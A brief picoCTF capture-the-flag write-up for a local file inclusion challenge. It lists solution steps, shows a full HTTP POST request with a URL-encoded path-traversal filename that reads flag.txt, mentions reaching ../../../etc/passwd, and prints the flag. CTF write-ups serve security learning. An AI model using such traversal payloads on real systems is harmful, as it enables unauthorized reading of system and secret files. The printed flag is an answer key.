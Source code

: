 # Solution

1. Browse to the website and look around
2. Attempt to perform a local file inclusion, but get denied
3. We need to bypass the absolute file path restrictions
4. URL encoding to ../../../etc/passwd works

## URL encoded request
```
POST /read.php HTTP/1.1
Host: saturn.picoctf.net:53638
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://saturn.picoctf.net:53638
Connection: close
Referer: http://saturn.picoctf.net:53638/
Upgrade-Insecure-Requests: 1

filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%66%6c%61%67%2e%74%78%74&read=
```

## Flag
```
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```
